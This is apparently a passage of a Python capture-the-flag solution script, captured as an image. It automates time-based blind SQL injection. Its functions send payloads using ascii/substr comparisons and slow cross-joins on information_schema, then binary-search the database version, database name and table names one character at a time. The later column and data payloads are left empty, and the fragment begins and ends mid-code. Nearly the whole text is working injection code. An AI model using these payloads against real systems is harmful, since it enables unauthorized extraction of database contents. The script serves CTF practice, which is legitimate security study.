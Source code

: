 ```python
            i)
        # 1'and/**/if(ascii(substr(version(),1,1))>64,1,1)like/**/1#
        j = binary_search(payload)
        if j > 10:
            resultstr = resultstr + chr(j)
            print(resultstr)
        else:
            break
    resultstr = "version==========>" + resultstr
    print(resultstr)


def database():
    resultstr = ""
    for i in range(1, 100):
        payload = "-1'and if((ascii(substr(database(),{},1))>%d),(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0);#".format(
            i)
        j = binary_search(payload)
        if j > 10:
            resultstr = resultstr + chr(j)
            print(resultstr)
        else:
            break
    resultstr = "databases==========>" + resultstr
    print(resultstr)
# databases==========>ctf

def table():
    resultstr = ""
    for i in range(1, 10000):
        payload = "-1'and if((ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('ctf')),{},1))>%d),(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0);#".format(
            i)
        j = binary_search(payload)
        if j > 10:
            resultstr = resultstr + chr(j)
            print(resultstr)
        else:
            break
    resultstr = "tables==========>" + resultstr
    print(resultstr)
# tables==========>ctf

def columns():
    resultstr = ""
    for i in range(1, 10000):
        payload = " ".format(i) # 孩子没跑了，太卡了
        j = binary_search(payload)
        if j > 10:
            resultstr = resultstr + chr(j)
            print(resultstr)
        else:
            break
    resultstr = "columns==========>" + resultstr
    print(resultstr)

def data():
    resultstr = " "
    for i in range(1, 10000):
        payload = "".format(i) # 孩子没跑了，太卡了
        j = binary_search(payload)
```